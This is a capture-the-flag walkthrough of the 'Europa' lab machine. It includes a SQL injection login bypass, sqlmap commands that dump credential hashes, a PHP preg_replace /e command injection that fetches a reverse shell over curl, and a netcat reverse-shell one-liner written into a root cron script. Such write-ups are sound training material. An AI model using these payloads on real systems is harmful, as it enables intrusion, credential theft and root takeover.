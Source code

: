 # Europa

Europa was a medium linux box that required an sql injection to bypass login followed by a reverse shell in the place of parameters using burpsuite, root involved enumeration of a cronjobs file being ran as root to get a shell.

# USER

## enumeration

Of course we start off with an nmap scan to reveal 2 main ports needed for this challenge.

```bash
root@kali:/home/kali/boxes/europa# nmap -sC -sV -o nmap 10.10.10.22
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-11 10:07 EDT
Nmap scan report for 10.10.10.22
Host is up (0.021s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Sql injection

In the SSL cert for https we can see that there is a subdomain called `admin-portal` running on the domain `europacorp.htb`. 

We add both of theese to our hosts file and enumerate the site on https.

We are greeted by a login page and we intercept the request with burpsuite to take a look at the parameters that it is executing.

It simply just asks for an email and a username. We start off with some simple sql injection tests to see if the site is vulnerable.

We get a redirect to a dashboard page with the parameters:
```bash
email=`UNION ALL SELECT NULL,NULL,NULL,NULL,NULL##&password=`UNION ALL SELECT NULL,NULL,NULL,NULL,NULL#
```

This is one way of doing it but i will cover another method using sqlmap.

As we know that the site is vulnerable we test params with sqlmap.

Theese are the commands that i used:
```bash
sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever"

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –dbs

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –tables -D admin

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –tables –columns -D admin -T users

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" -D admin -T users –dump password
```

The final command brings us the password dump:
```bash
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

We decrypt the password and login with `admin@europacorp.htb:SuperSecretPassword!` , note that this is an md5 hash that can be decrypted with an online tool.

After logging in we navigate to tools where we can see what seems to be an openvpn config file.

```bash
"openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}

```

We press generate and intercept this again with burpsuite.

```bash
pattern=%2Fip_address%2F&ipaddress=&text=%22openvpn%22%3A+%7B%0D%0A++++++++%22vtun0%22%3A+%7B%0D%0A++++++++++++++++%22local-address%22%3A+%7B%0D%0A++++++++++++++++++++++++%2210.10.10.1%22%3A+%22%27%27%22%0D%0A++++++++++++++++%7D%2C%0D%0A++++++++++++++++%22local-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22mode%22%3A+%22site-to-site%22%2C%0D%0A++++++++++++++++%22openvpn-option%22%3A+%5B%0D%0A++++++++++++++++++++++++%22--comp-lzo%22%2C%0D%0A++++++++++++++++++++++++%22--float%22%2C%0D%0A++++++++++++++++++++++++%22--ping+10%22%2C%0D%0A++++++++++++++++++++++++%22--ping-restart+20%22%2C%0D%0A++++++++++++++++++++++++%22--ping-timer-rem%22%2C%0D%0A++++++++++++++++++++++++%22--persist-tun%22%2C%0D%0A++++++++++++++++++++++++%22--persist-key%22%2C%0D%0A++++++++++++++++++++++++%22--user+nobody%22%2C%0D%0A++++++++++++++++++++++++%22--group+nogroup%22%0D%0A++++++++++++++++%5D%2C%0D%0A++++++++++++++++%22remote-address%22%3A+%22ip_address%22%2C%0D%0A++++++++++++++++%22remote-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22shared-secret-key-file%22%3A+%22%2Fconfig%2Fauth%2Fsecret%22%0D%0A++++++++%7D%2C%0D%0A++++++++%22protocols%22%3A+%7B%0D%0A++++++++++++++++%22static%22%3A+%7B%0D%0A++++++++++++++++++++++++%22interface-route%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++%22ip_address%2F24%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++%22next-hop-interface%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++++++++++%22vtun0%22%3A+%22%27%27%22%0D%0A++++++++++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++%7D%0D%0A++++++++++++++++%7D%0D%0A++++++++%7D%0D%0A%7D%0D%0A++++++++++++++++++++++++++++++++
```

This is what it brings back, essentially url encoded the config above with a pattern param and ip address parameter. We tweak this to get command execution.
```bash
pattern=/ip_address/e&ipaddress=system('whoami')&text=....
```

This brings back the result `www-data` so we know we can continue with this.

After alot of tweaking we change it to get a file from our box and execute it.
```bash
pattern=/vtun0/e&ipaddress=system('curl+http%3a//10.10.xx.xx%3a8000/php-reverse-shell.php+|+php')&text=...
```

We get a connection on our netcat listener and we get a shell on the box!

## User flag

```bash
kali@kali:~/boxes/europa$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.22] 33246
Linux europa 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:17:06 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 18:06:16 up 4 min,  0 users,  load average: 0.01, 0.08, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
john
$ cd john
$ cat user.txt
2f8d40{...}
```

# ROOT

## enumeration 

After running `pspy` on the system we find a binary `clearlogs` running as root on the system. We read the file to take a look at it.

>clearlogs:
```php
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
## Exploitation

We can see that it is running the file `logcleared.sh` in the system so we will see if we can change the contents of that file to give us a root shell.

We echo a reverse shell to the file and wait a few seconds for it to execute and we get our shell.
```bash
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 > /tmp/f' > /var/www/cmd/logcleared.sh
$ chmod 777 /var/www/cmd/logcleared.sh


root@kali:/home/kali/boxes/europa# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.22] 33248
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
7f19438b275{...}
```

Thanks for reading hope that you enjoyed.

